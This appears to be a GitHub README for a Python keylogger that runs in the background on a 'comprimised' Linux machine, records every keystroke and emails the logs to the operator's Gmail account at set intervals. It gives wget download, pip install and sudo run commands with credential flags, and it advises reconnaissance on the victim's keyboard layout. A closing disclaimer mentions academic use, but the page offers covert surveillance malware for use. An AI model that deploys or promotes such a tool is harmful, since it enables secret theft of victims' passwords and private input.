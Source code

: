 # Keylogger

## Description
Want a terrible keylogger? Look no further!

This keylogger runs in the background and copies all the keystrokes a user inputs. After an interval, it then emails these keystrokes to the gmail given. If the user doesn't type anything, the logger knows not to email anything. 

The logger is heavily based on the logger written by [x4nth055](https://github.com/x4nth055). 

I added the ability to feed in an email address and password, rather than hardcode it in, the ability to feed in how long you want the script to report back to you, as well as an experimental attempt to report special chracter key strokes.

### Prerequisites

This logger has been built on a number of assumptions:
* You've can run sudo on a comprimised linux system
* You have access to Gmail, and have turned on 'less secure app access' in your security settings

You'll need to install the following pip3 modules, if you don't already have them:
```bash
pip3 install keyboard
pip3 install argparse
```
### Installation
```bash
wget https://raw.githubusercontent.com/Purp1eW0lf/Keylogger/main/logger.py
```
### Usage
This logger requires you to feed your gmail email and password. I would create a throwaway account for this. 

You can also optionally feed the script the length of time you want it to wait and send you an email of the keystrokes. The default waiting period is 60 seconds, should you chooe not to input length (the -l flag)

```bash
sudo python3 logger.py -e gmail@Address -p Password -l 120
```

#### Google Security
##### Make sure this option is selected in your Gmail Security
![Google Security](https://github.com/Purp1eW0lf/Keylogger/blob/main/images/Google%20Security.jpg)

#### Help Image
![Help Image](https://github.com/Purp1eW0lf/Keylogger/blob/main/images/HELP.jpg)

#### Usage Image
![Usage image](https://github.com/Purp1eW0lf/Keylogger/blob/main/images/Example%20Use.jpg)

#### Email Report Image
![Email report](https://github.com/Purp1eW0lf/Keylogger/blob/main/images/Logged%20Email.jpg)


## Known Issues
Sometimes the emails don't send at the regular interval, but will come in batch and you'll get a handful at once
* Fix: I'm not clever enough to figure out why yet.

The script tries to tranpose special characters by examining is the user presses the SHIFT key and a corresponding number. This is majorly flawed, however, as it is entirely dependent on the type/brand/langugage of the keyboard. The current script is based on a Macbook keyboard. 
* Fix: If you're able to do some recon on the user's keyboard type, you can change the section in the middle of the script, and reassign the key values for better accuracy. 

### Contact

If you notice a way the script can be improved you're welcome to make requests and raise issues. 
You're also welcome to slide in my Twitter DMs and tell me how shit the logger is.
[@Purp1eW0lf](https://twitter.com/Purp1eW0lf)

#### License
This tool is free to use. Do not use for illegal purposes. Only use for academic purposes, on computers that you have permission to access. 
